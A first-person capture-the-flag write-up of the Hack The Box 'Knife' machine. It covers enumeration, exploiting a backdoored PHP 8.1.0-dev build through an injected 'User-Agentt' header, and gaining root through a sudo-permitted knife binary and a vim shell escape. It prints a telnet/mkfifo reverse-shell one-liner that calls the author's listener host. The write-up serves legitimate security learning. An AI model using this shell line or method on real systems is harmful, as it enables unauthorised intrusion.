 

#CTF/HTB/Linux/Easy

# Given

Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

## IP

10.10.10.242

# Writeup

## Enumeration

I started with running Rustscan really quick to see what ports were open. I also had a full Nmap scan running in the background. I got two open ports:

- SSH(22)
- HTTP(80)

I started looking at port 80. It seemed to be a Linux based web server running `Apache/2.4.41 (Ubuntu)`. There's a website on it called `Emergent Medical Idea`.
There weren't any creds left behind in the source code, nor were there any working links. I started looking at the tech stack before going ahead with any sort of directory busting.

![](Assets/Pasted%20image%2020250711095943.png)

Aside from the version of Apache and what type of server this was, I got the technology the site was based on and version:

- PHP 8.1.0-dev

## Exploit

I ran this through `searchsploit` and got a hit on a Remote Code Execution vulnerability.

![](Assets/Pasted%20image%2020250711100152.png)

** Check out the details of the vulnerability on [exploitdb](https://www.exploit-db.com/exploits/49933)

## Foothold

Reading through the python script, it seemed use an additional request header called `User Agentt` to inject commands to the web server.

![](Assets/Pasted%20image%2020250711113836.png)

![](Assets/Pasted%20image%2020250711102856.png)

This isn't a proper shell though, so I had to create a reverse shell to my machine. I used [revshells](www.revshells.com) to generate a telnet based script and have it connect to my netcat listener.

```shell
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.16.2 4443 0<$TF | sh 1>$TF
```

This got me a basic shell onto the web server. I then had to upgrade it.

The user flag is in james's home directory

![](Assets/Pasted%20image%2020250711103147.png)

## Privilege Escalation

Now that I was in the web server as `james` I needed to escalate my privileges to get to `root`. I started with checking james's permissions on the server with `sudo -l`. This shows that james can run a script as root

![](Assets/Pasted%20image%2020250711103220.png)

I tried to add code to the file `knife`, and tried to replace it. Those didnt really work. So I had to google what knife was (and I tried hard to not look at writeups). I looked through gtfobins, found knife, and a simple way to escalate my privileges on this machine.

![](Assets/Pasted%20image%2020250711111918.png)

This got my shell upgraded to root, and I proceeded to get the flag in the home directory.

![](Assets/Pasted%20image%2020250711112110.png)

# Extra Notes

What if GTFO bins didn't have a privesc for Knife?

I first would need to know what knife is in the first place. Googling this got me [here](https://docs.chef.io/workstation/knife_setup/). TLDR: Knife is a command line utility that was created to communicate with Chef, which is a basically an automation platform.

## VIM Escape

The `knife data bag` subcommand allows users to interact with global variables as JSON objects.

I looked through the knife docs, and tried to create a bag, which I could hopefully edit with vim later. That didn't really work. 

![](Assets/Pasted%20image%2020250711120321.png)

So I tried to get the same command into vim like 0xdf does in his walkthrough, that didn't work either despite me restarting the server. 

Ideally, we should be able to edit the file on vim, and then run commands through vim's command line by running

```shell
!/bin/bash
```

# References

[0xdf - knife](https://0xdf.gitlab.io/2021/08/28/htb-knife.html#shell-as-root)